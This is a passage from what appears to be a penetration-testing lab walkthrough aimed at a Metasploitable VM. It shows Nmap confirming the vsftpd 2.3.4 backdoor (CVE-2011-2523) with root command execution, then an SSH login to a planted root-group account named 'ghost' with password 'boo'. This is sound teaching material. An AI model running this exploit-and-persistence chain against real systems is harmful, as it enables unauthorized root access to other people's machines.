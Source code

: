 ```python
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://osvdb.org/73573
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
MAC Address: 08:00:27:30:63:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 11.34 seconds
```

Since there is typically no output for a successful `useradd` execution, we can assume it worked and try to login remotely.
```bash
ssh ghost@192.168.56.4
```
```bash
ghost@192.168.56.4s password: # according to our arg file, password = 'boo'
```
```
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Could not chdir to home directory /home/ghost: No such file or directory
ghost@metasploitable:/$
```
And we're in! Running the `id` shell command as before now tells us we have root-level access as `ghost`. Spooky!
```
ghost@metasploitable:/$ id
uid=1003(ghost) gid=0(root) groups=0(root)
```

### References
* [Nmap Reference Guide: Host Discovery](https://nmap.org/book/man-host-discovery.html)
* [Nmap Reference Guide: OS Detection ](https://nmap.org/book/man-os-detection.html)
* [Daniel Miessler: Nmap - Use the --top-ports Option for Both TCP and UDP Simultaneously](https://danielmiessler.com/blog/nmap-use-the-top-ports-option-for-both-tcp-and-udp-simultaneously/)
* [Digital Ocean: How To Test your Firewall Configuration with Nmap and Tcpdump](https://www.digitalocean.com/community/tutorials/how-to-test-your-firewall-configuration-with-nmap-and-tcpdump)
* [HackerTarget: Nmap Cheat Sheet](https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/)
* [Nmap Reference Guide: Nmap Scripting Engine](https://nmap.org/book/nse-usage.html#nse-script-types)
* [NSE Script: ftp-vsftpd-backdoor](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html)
